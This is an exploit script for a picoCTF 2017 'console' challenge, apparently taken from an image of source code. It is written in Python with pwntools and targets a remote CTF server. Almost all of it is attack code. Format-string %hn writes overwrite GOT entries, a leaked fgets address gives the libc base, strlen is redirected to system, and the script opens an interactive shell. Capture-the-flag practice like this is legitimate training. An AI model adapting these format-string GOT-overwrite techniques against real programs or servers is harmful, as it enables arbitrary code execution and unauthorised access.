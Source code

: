 ~~~python
	format_s1 ="%{0}c|%17$hn|".format(int(addr_part_1) - 5).rjust(16) + strlen_got
	payload = "exit".ljust(8) + format_s1
	r.sendline(payload)
	r.recvuntil('Config action:')	

	addr_part_2 = (system_addr >> 16) & 0xFFFF
	format_s2 ="%{0}c|%17$hn|".format(int(addr_part_2) - 5).rjust(16) + p64(0x601210+2)  #modify address we put
	payload = "exit".ljust(8) + format_s2
	r.sendline(payload)
	r.recvuntil('Config action:')	
	
	addr_part_3 = (system_addr >> 32) & 0xFFFF
	format_s3 ="%{0}c|%17$hn|".format(int(addr_part_3) - 5).rjust(16) + p64(0x601210+4)  #modify address we put
	payload = "exit".ljust(8) + format_s3
	r.sendline(payload)
	r.recvuntil('Config action:')	
	
	#gdb.attach(r)


def leak_address_from_got(address, r):
	format_string_5 = "|%16$s|".rjust(8) + address
	payload = "exit".ljust(8) + format_string_5
	#gdb.attach(r)
	r.sendline(payload)
	res = r.recvuntil('Config action:').split('|')[1]
	return hex(u64(res.ljust(8, '\x00')))


def explore_stack(r):
	payload = "exit".ljust(8) + format_string_1
	#gdb.attach(r)
	r.sendline(payload)
	print r.recvuntil('Config action:')


if __name__ == "__main__":
	context.arch = 'amd64'
	context.os   = 'linux'
	context.terminal = ["terminator", "-e"]

	#r = process(['./console', 'log'], env=env)
	r = remote('shell2017.picoctf.com', 11496)
	overwrite_exit(r)

	fgets_address = leak_address_from_got(fgets_got, r)
	print "fgets: ", fgets_address
	libc_base = int(fgets_address,16) - fgets_offset
	print "libc base address: ", hex(libc_base)
	system_address = libc_base + system_offset
	print "system address: ", hex(system_address)
	
	overwrite_strlen(r, system_address)

	#explore_stack(r)
 	#gdb.attach(r)
    r.interactive() #p /bin/sh
~~~
